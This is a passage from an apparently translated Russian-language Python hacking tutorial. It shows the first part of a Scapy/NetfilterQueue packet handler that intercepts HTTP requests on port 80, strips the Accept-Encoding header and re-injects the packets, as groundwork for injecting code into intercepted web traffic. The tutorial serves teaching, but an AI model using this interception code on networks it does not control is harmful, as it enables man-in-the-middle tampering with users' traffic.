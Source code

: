 # initialize colorama
init()

# define colors
GREEN = Fore.GREEN
RESET = Fore.RESET
Далее, чтобы привязаться к NetfilterQueue, мы должны сделать функцию, которая принимает пакет в качестве параметра, и мы сделаем модификацию пакета там. Функция будет длинной и поэтому разделена на две части:

def process_packet(packet):
    """
    This function is executed whenever a packet is sniffed
    """
    # convert the netfilterqueue packet into Scapy packet
    spacket = IP(packet.get_payload())
    if spacket.haslayer(Raw) and spacket.haslayer(TCP):
        if spacket[TCP].dport == 80:
            # HTTP request
            print(f"[*] Detected HTTP Request from {spacket[IP].src} to {spacket[IP].dst}")
            try:
                load = spacket[Raw].load.decode()
            except Exception as e:
                # raw data cannot be decoded, apparently not HTML
                # forward the packet exit the function
                packet.accept()
                return
            # remove Accept-Encoding header from the HTTP request
            new_load = re.sub(r"Accept-Encoding:.*\r\n", "", load)
            # set the new data
            spacket[Raw].load = new_load
            # set IP length header, checksums of IP and TCP to None
            # so Scapy will re-calculate them automatically
            spacket[IP].len = None
            spacket[IP].chksum = None
            spacket[TCP].chksum = None
            # set the modified Scapy packet back to the netfilterqueue packet
            packet.set_payload(bytes(spacket))
Скачать: Постройте 24 этических хакерских скрипта и инструментов с помощью Python Book
